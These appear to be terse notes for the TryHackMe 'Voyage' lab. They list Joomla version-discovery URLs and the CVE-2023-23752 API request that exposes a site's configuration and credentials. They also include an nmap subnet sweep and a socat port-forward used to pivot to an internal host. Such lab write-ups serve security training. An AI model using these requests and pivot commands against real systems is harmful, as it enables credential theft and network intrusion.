 # for tryhackme room Voyage https://tryhackme.com/room/voyage

Joomla Version:

https://github.com/OWASP/joomscan

http://10.10.113.54/README.txt
http://10.10.113.54/administrator/manifests/files/joomla.xml

CVE-2023-23752

http://10.10.113.54/api/index.php/v1/config/application?public=true

nmap -sn 192.168.100.0/24

socat tcp-listen:5000,fork,reuseaddr tcp:192.168.100.12:5000 &
